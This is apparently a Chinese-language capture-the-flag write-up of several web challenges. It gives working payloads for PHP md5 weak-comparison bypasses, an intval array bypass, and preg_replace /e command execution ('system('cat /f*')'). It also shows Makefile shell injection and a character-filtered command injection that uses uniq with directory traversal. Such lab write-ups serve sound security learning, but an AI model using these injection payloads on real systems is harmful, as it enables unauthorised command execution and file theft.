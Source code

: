 # WEB

## warm up

### 第一关

根据源码可大致分为三次绕过

**1**

```php
if (isset($_GET['val1']) && isset($_GET['val2']) && $_GET['val1'] != $_GET['val2'] && md5($_GET['val1']) == md5($_GET['val2'])) {
    echo "ez" . "<br>";
} else {
    die("什么情况,这么基础的md5做不来");
}
```

让传入的val1和val2的md5值相等,由于是==弱比较绕过,所以可以用md5后0e开头的字符串进行绕过

```
?val2=240610708&val1=QNKCDZO
```

**2**

```php
if (isset($md5) && $md5 == md5($md5)) {
    echo "ezez" . "<br>";
} else {
    die("什么情况,这么基础的md5做不来");
}
```

去网上可以找到有些字符串,是0e开头并且md5后还是0e开头的

比如:0e215962017所以

此时构造成

```
?val2=240610708&val1=QNKCDZO&md5=0e215962017
```

**3**

```php
if ($XY == $XYCTF) {
  if ($XY != "XYCTF_550102591" && md5($XY) == md5("XYCTF_550102591")) {
    echo $level2;
  } else {
    die("什么情况,这么基础的md5做不来");
  }
} else {
  die("学这么久,传参不会传?");
}
```

首先XYCTF是有初值的所以想要过这个判断需要重新赋值给XYCTF,但是又要等于XYCTF_550102591的md5值又不能等于XYCTF_550102591让人看了很难办但是当我们把XYCTF_550102591去md5编码之后发现是

```
0e937920457786991080577371025051
```

所以此处也可以利用md5弱类型比较,最终payload

```
?val2=240610708&val1=QNKCDZO&md5=0e215962017&XY=s878926199a&XYCTF=s878926199a
```

绕过三步之后根据LLeeevvveeelll222.php进入第二关

### 第二关

**1**

```php
if (isset($_POST['a']) && !preg_match('/[0-9]/', $_POST['a']) && intval($_POST['a'])) {
    echo "操作你O.o";
```

POST传参a不能为数字,但是intval()函数又只能是数字,此时可以利用数组绕过

a[]=1,可以绕过正则匹配

**2**

```php
echo preg_replace($_GET['a'],$_GET['b'],$_GET['c']);  // 我可不会像别人一样设置10来个level
} else {
    die("有点汗流浃背");
}
```

由于preg_replace()函数存在命令执行漏洞利用preg_replace函数的一个“/e”模式

所以最终payload

```
?a=/123/e&b=system('cat /f*')&c=123
POST:a[]=1
```

# Makefile

## 解法一:

通过dirsearch去扫描网站发现存在/flag,访问就可得到flag

## 解法二:

输入1发现显示

```
No such file or directory
```

输入flag显示

```
Permission denied
```

表示权限不够

而

```
$(shell cat flag)
```

是makefile常用的命令格式,尝试之后

得到flag

# ez?Make



照常测试输入1返回

```
command not found
```

可以判断出此处是要执行命令,可以先尝试利用bp去爆破可利用字符,以便等会查找哪些命令无法使用

发现只有f l a g这四个字符被过滤,但是这四个字符却把很多常用执行文件读取的命令给禁用了

经查找uniq命令映入我们眼帘

猜测flag应该是在根目录

利用cd ..&&pwd判断目录可被穿越

于是构造payload

```
cd ..&&cd ..&&cd ..&&uniq [^0-9][^0-9][^b-z][^0-9]
```

此处猜测flag为flag不带后缀于是利用正则表达式快速方法是第三位正则匹配^b-z就行,当然如果没读出来也可以多搞几个精确,猜测文件名有几位正则匹配几次

于是拿到flag

